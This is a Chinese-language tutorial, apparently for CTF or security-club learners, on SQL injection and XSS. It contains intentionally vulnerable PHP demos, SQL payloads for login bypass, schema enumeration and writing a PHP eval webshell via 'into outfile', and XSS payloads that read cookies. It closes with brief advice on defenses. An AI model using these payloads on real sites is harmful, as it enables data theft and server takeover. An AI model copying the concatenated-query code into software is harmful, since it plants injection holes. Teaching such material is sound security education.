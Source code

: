 # SQL注入与xss

## SQL注入

### 何为sql注入?

SQL注入即是指web应用程序对用户输入数据的合法性没有判断或过滤不严，攻击者可以在web应用程序中事先定义好的查询语句的结尾上添加额外的SQL语句，在管理员不知情的情况下实现非法操作，以此来实现欺骗数据库服务器执行非授权的任意查询，从而进一步得到相应的数据信息;

### 原理

由于可以进行字符串拼接,所以可以代入注释符引号等对原语句进行闭合,达到执行一些未达到其他目的的sql语句

### demo

```php
<?php
$mysql=new  mysqli('127.0.0.1','root','root','sql_injection');
$username=$_POST['username'];
$password=$_POST['password'];
$type=$_GET['type'];
if (!$type){
	echo "please 'get' a type";
}
if ($type==='register'){
	$result=$mysql->query("INSERT INTO `users`(`username`, `password`) VALUES ($username,$password)");
	var_dump($result);
}
if ($type=='login'){
	$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";
	$result= $mysql->query($sql);
	echo "your sql query stings is:$sql"."<br/>".PHP_EOL;
	var_dump($result);
	$row=$result->fetch_row();
	//	echo "hello ".$result[''];
	var_dump($row);
	echo '<br/>'.PHP_EOL;
	echo "hello $row[1]";
}
```

1234' or 1=1#

SELECT * FROM users WHERE username='1234' or 1=1#' AND password='12'

payload

username=

```sql
//万能密码
admin' or 1=1#
//爆库
0' union select 1,group_concat(schema_name),3 from information_schema.schemata#
//爆表
0' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()#
//爆字段
0' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() AND table_name='users'#
//写webshell
0' union select 1,2,0x3c3f706870206576616c28245f504f53545b2761275d293f3e into outfile 'D:\\phpstudy_pro\\WWW\\php_trick\\shell.php'#
```

password=

```plain
12
1234
```

### 危害

轻则脱库

重则webshell

末日则人没了

想详细了解的可以看看我的博客

WAF,安全狗,还是看门狗,

湘大某某服务存在sql注入,高危

[sql注入总结](https://yanmymickey.github.io/2020/02/11/CTF/sql%E6%B3%A8%E5%85%A5%E6%80%BB%E7%BB%93/)

[mysql注入天书](https://www.cnblogs.com/lcamry/category/846064.html)

第二个链接会从sql基础讲起，对于sql注入理解很有帮助，里面有博客一篇篇的文章版本，还有一版pdf，在开天辟地里面有介绍。

[对MYSQL注入相关内容及部分Trick的归类小结](https://xz.aliyun.com/t/7169#toc-53)

高阶知识，sql注入小能手

### 防御

防御太难了，没有一劳永逸的方法。

相对安全的方法，使用PDO的预编译，但是也要主要宽字节等等。

当你使用laravel的框架的时候，代码规范的情况下是不会出现这样的漏洞，比如使用ORM，不要用DB对象的拼接，对输入数据进行过滤，充分利用正则表达式等等过滤一切你不想要的字符（字符白名单）

## XSS

### 是什么？

跨站脚本攻击（Cross-site scripting，XSS）是一种安全漏洞，攻击者可以利用这种漏洞在网站上注入恶意的客户端代码。当被攻击者登陆网站时就会自动运行这些恶意代码，从而，攻击者可以突破网站的访问权限，冒充受害者。

### 怎么用

理解比较简单，放几个链接看看就好，到时候展示一下常见的例子，带入一下

[XSS总结](https://xz.aliyun.com/t/4067#toc-10)

```php
<?php

setcookie("user","admin");

$msg=$_POST['msg'];
//存储型
//$mysql=new  mysqli('127.0.0.1','root','root','sql_injection');
//$insert=$mysql->query("INSERT INTO `xss`(`msg`) VALUES ('$msg')");
//var_dump($insert);
//$result=$mysql->query("SELECT * FROM `xss`");
//if ($result->num_rows > 0) {
//	// 输出数据
//	while($row = $result->fetch_assoc()) {
//		echo "id: " . $row["id"]. " - msg: " . $row["msg"]."<br>";
//	}
//} else {
//	echo "0 结果";
//}

//反射型
echo $msg;

//dom型
//和反射型差不多,利用你注入的代码去操作dom

```



```http
msg=<iframe src="https://www.baidu.com"></iframe>
msg=<script>alert(1);</script>
msg=<script>alert(document.cookie);</script>
```

html+php

//过滤,代码把你的转义,白名单

## 写在最后

希望你们多去看看原理,程序员不要停留在会用的阶段,会用的阶段你就是一个`Ctrl+c Ctrl+v`

有什么需要看的?

没事就看看nginx的原理,配置文件会写了吗?很细节的地方能写吗?不常见的用法能看懂吗? 

docker实现的原理?

laravel的底层代码?

最后要多学几门语言,学完C语言,PHP了,那么常见的高级语言都差不多类型了,入门多门语言是不难的,无非都是基础的条件,循环,流程控制。再这些语言中选一两门比较感兴趣又比较热门的深入学习，现在热门的是java，c++，python，php，go，等等一些。

看见什么多折腾折腾是有好处的

先有宽度，再有深度，不断深入学习方能成就大业。

加油叭，少年们，我们还差得远呢🙃🙃🙃

